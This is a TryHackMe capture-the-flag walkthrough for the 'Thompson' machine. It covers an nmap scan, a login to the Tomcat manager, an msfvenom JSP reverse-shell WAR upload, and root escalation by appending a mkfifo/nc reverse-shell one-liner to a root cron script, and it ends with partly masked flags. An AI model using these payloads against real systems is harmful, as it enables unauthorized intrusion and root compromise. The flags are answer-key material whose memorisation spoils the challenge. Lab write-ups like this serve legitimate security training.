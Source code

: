 # TryHackMe: Thompson

---

By: *UnknownPerson*

---

nmap -sC -sV -Pn -vv {IP}

## Port Scanning: {22,8080,8009}

```
> This 8080 contain Tomcat server hosting it conatain teb's like magaer , serverlat status etc but this thing need login 
when we do some false cred pass on login form error mesage pop
up and throw that we get login username and password because 
server debug mode is on
```
to**at:s****t

--

```
in Manager tab it contain option where we can upload war file 
to run service on webservlat collaction in this we can genrate malisious file using msfvenom throw this we get our intial Access
```
[ .WAR file, or Web Archive file, is a packaged web application that contains a collection of resources, such as HTML pages, JavaServer Pages, and Java servlets]
--



## Intial Access

Payload :- msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > shell.war
--

```
Throw this we get our intial Access on web server let enumrate this server more and gather more information
```
## Privillage Escallation

```
This CTF is not a real life simulation performing because of the
substance added on this ctf like that in /home/jack there is 2 file
located id.sh and test.txt where using <b> crontab <b> there is root accessed process running where after some time interval ther 
will be file run /home/jack bash id.sh where this file performing 
opration of printing ID in test.txt 

> As Simple we add reverse shell payload in this file And After some Time We get Revershell of Root Access
```

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <PORT> >/tmp/f```

User.txt :- At /home/jack :- **400c90***83a41a8***e4719f1***f
Root.txt :- /root :- d8***391984c0***a95497153ae***3a
--

As this way we agin Pawned New machine {Thompson}
--